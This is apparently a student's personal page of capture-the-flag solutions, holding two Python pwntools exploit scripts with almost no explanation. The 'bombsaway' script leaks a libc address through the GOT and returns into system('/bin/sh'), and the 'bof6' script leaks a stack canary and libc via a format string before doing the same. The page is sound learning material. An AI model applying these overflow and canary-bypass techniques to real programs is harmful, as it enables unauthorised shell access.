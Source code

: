 ## Welcome to Fuzzer's Palace


### Greek ECSC QUALS 2017-Pwn Challenge
```python
from pwn import *
from struct import pack, unpack


def pwn():
    p = lambda x : pack("I",x)
    r = process('./bombsaway')
    print r.recv()
    r.sendline('test')
    print r.recv()
    r.sendline('2')
    print r.recv()
    payload = 'A'*556
    payload += p32(0x080483b0) # plt of write
    payload += p32(0x08048400) # ret
    payload += p32(0x1)
    payload += p32(0x080f700c) # read in got
    payload += p32(0x4) #leak

    r.sendline(payload)
    rec = r.recvuntil('Password:')
    print rec
    i = 40
    rec = rec[i:i+4]
    read_libc = unpack('I', rec)[0]
    print '[+] Libc addr of read: '+hex(read_libc)
    libc_base = read_libc-0x0e5620
    print '[+] Libc base: '+hex(libc_base)
    sys = p(libc_base+0x03cd10)
    lol = p(libc_base+0x123456)
    binsh = p(libc_base+0x17b8cf)
    r.sendline('test')
    r.recvuntil('Option:')
    r.sendline('2')
    r.recvuntil(':')
    fpayload = 'A'*544
    fpayload += sys
    fpayload += lol
    fpayload += binsh
    r.sendline(fpayload)
    r.interactive()

pwn()
```

### HOW2BOF-Bof6 Challenge
```python
from pwn import *

def pwn():
        sys_off = 0x03ada0
        exit_off = 0x02e9d0
        bin_sh_off = 0x15ba0b
        p = lambda x : (x[2:].decode('hex'))[::-1]
        r = process('./bof6')
        r.recvuntil('Name: ')
        r.sendline('%x '*18)
        a = r.recvuntil(':')
        print a
        canary = hex(int(a[57:65], 16))
        libc=int(a[95:103],16)-1777664
        print "[+] Here is your cookie motherfucker: "+str(canary)
        print "[+] Libc base address SKIDO: "+hex(libc)
        payload = ""
        payload += "A"*64
        payload += p(canary)
        payload += "B"*12
        payload += p(hex(libc+sys_off))
        payload += p(hex(libc+exit_off))
        payload += p(hex(libc+bin_sh_off))
        r.sendline(payload)
        r.interactive()

pwn()
```

For more ***pwn*** writeups see [here](https://www.github.com/fuzz3rctf/pwnz).
For ***reversing*** writeups see [here](https://www.github.com/fuzz3rctf/reversing)

### ~$ WHOAMI
1. I am a Greek high school student. 
2. I love Binary Reverse Engineering and Exploitation!


### Support or Contact

[Twitter](https://www.twitter.com/proud_skid/) 

